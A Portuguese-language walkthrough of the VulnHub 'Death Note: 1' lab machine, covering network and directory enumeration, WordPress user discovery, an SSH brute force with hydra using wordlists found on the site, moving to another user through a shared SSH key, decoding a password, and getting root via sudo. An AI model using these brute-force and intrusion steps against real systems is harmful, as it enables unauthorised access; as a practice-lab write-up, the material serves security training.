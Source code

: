 # Death Note: 1

Local: [vulnhub.com](vulnhub.com)  
Dificuldade: Fácil

## Identificação e Enumeração

O primeiro passo foi encontrar o endereço da máquina:

```bash
netdiscover
```

![Netdiscover](img/ndiscover.jpg.png)

O endereço que quero é o último(192.168.0.197) os outros são o meu e do meu roteador

Com o Endereço, iniciei um portscan para identificar os serviços e suas portas

```bash
nmap -sS -sV -p- 192.168.0.197
```

![nmap](img/nmap.png)

Vemos que existem somente dois serviços, um http na porta 80 e um ssh na porta 22, ao olhar o conteúdo da porta 80, ele tenta redirecionar para o domínio http://deathnote.vuln/ mas ele não existe, então acidionei a seguinte linha no meu arquivo /etc/hosts

- 192.168.0.197 deathnote.vuln

Agora, ao acessar o IP ele recirediona para um site feito em wordpress com o tema de Death Note, na págin principal há um item chamado HINT(http://deathnote.vuln/wordpress/index.php/hint/) que abre uma nova página com algumas dicas:
![hint](img/hint.png)

Eu executei alguns webcrawlings para tentar encontrar algum arquivo ou diretório que pudesse ajudar a prosseguir:

```bash
dirb http://deathnote.vuln/ /usr/share/wordlists/dirb/common.txt
```

![dirb](img/dirb.png)

- /manual/ é um diretório do apache, com documentação, links importantes, etc
- /wordpress/ é onde está o site
- /robots.txt é o arquivo para mecanismos de busca e indexação, que permite definir urls que não devem ser indexadas

O arquivo notes.txt citado na dica não foi encontrado, então resolvi aprimorar minha busca, vi sobre a organização de arquivos do wordpress e um artigo que me ajudou muito foi esse: https://www.wpbeginner.com/beginners-guide/beginners-guide-to-wordpress-file-and-directory-structure/

Sabendo que os arquivos do servidor vão para a pasta /wp-content/uploads/<ANO>/<MES> então escrevi o seguinte script em shell script

```bash
for i in {2019..2021}; do
  for j in {01..12}; do
    dirb http://deathnote.vuln/wordpress/wp-content/uploads/$i/$j /usr/share/wordlists/dirb/common.txt -X .txt;
  done
done
```

![dirbshell](img/shell.png)

Com isso encontrei dois arquivos, user.txt e notes.txt que foi citado na dica anterior

Olhando o conteudo dos arquivos encontramos o seguinte

notes.txt: parece ser uma wordlist de senhas

```
curl http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

![curl notes](img/curlnotes.png)

user.txt: parece ser uma wordlist de usuarios

```bash
curl http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```

![curl user](img/curluser.png)

Com essas informações posso fazer um bruteforce sobre o login do wordpress ou sobre o login do ssh.
Antes de fazer isso tentei identificar os usuarios do site com o wpscan

```
wpscan --url http://deathnote.vuln/wordpress/ -e u
```

![wp enum](img/wpenum.png)

## Exploração

Ele identificou um usuário chamado kira, então usando o wpscan novamente fiz um ataque de força bruta para tentar conseguir o login

```
wpscan --url http://deathnote.vuln/wordpress/ -P notes.txt -U kira
```

Mas ele não me retornou nenhum login válido , então achei que pudesse ser outro usuário que o wpscan não encontrou, então fiz o seguinte:

```bash
s=''
for i in $(cat user.txt); do
  s=$i","$s;
done
echo $s
wpscan --url http://deathnote.vuln/wordpress/ -P notes.txt -U $s
```

Ainda assim ele não encontrou nenhum usuário válido, então achei que essa wordlist não fosse referente ao site, mas sim ao ssh que encontramos no portscan
Então fiz um bruteforce usando hydra

```bash
hydra -vI -L user.txt -P notes.txt 192.168.0.197 ssh
```

e ele encontrou as seguintes credenciais

![hydra](img/ssh.png)

Com isso podemos se conectar via ssh partir para escalação de privilégios

```
ssh l@192.168.0.197
```

Ao entrar na pasta pessoal de l, temos outro arquivo chamado user.txt, mas esse contendo um brainfuck

```
cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

Ao decodificar esse brainfuck, temos:

- i think u got the shell , but you wont be able to kill me -kira

Se olharmos em /home tem uma pasta pessoal para kira também, nela existem alguns arquivos que não podemos acessar, mas tem algo interessante. podemos ler o conteudo de .ssh/authorized_keys e lá vemos que existe uma chave se l, ou seja, podemos se conectar como kira usando nossa chave ssh

```
ssh kira@localhost
```

e agora estamos conectados como kira. O primeiro arquivo que temos é kira.txt que contem um bas64, quando decodificamos temos o seguinte conteudo

```
$ cat kira.txt | base64 -d;echo
please protect one of the following
1. L (/opt)
2. Misa (/var)
```

já temos dois diretórios para acessar:

- **/opt**: dentro dele tem uma pasta chaamda L com dois diretórios
  - **/fake-notebook-rule/**:

```
$ cat case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```

```
$ cat hint
use cyberchef
```

Isso é um hexadecimal que diz: cGFzc3dkIDoga2lyYWlzZXZpbCA=

Isso é um base64, que diz:

```
$ echo "cGFzc3dkIDoga2lyYWlzZXZpbCA=" | base64 -d;echo
passwd : kiraisevil
```

Essa é a senha de kira, mas como já estamos conectados com seu usuário não preciamos dela agora

- **/kira-case**:

```
$ cat case-file.txt
the FBI agent died on December 27, 2006

1 week after the investigation of the task-force member/head.
aka.....
Soichiro Yagami's family .


hmmmmmmmmm......
and according to watari ,
he died as other died after Kira targeted them .


and we also found something in
fake-notebook-rule folder .
```

Aqui só orienta a olhar o arquivo que já olhamos.

Partindo para o outro diretório

- /var: Existe um arquivo chamado misa, mas ele não tem nada muito interessante

```
$ cat misa
it is toooo late for misa
```

## Escalação de Privilégios

Já escalamos de l para kira antes, mas precisamos nos tornar root. A primeira coisa que fiz foi olhar possiseis executáveis que fossem executados como root, cronjobs, e que permissões de execução o usuário tinha
Descobri o sequinte:
Obs.: Aqui vamos usar a senha que conseguimos antes

```
$sudo -l
```

![sudo](img/sudo.png)

Ele pode executar todos os comandos como root, então só fiz:

```
sudo su
```

e estamos conectados como root

```
$cat root.txt
```

![root](img/root.png)
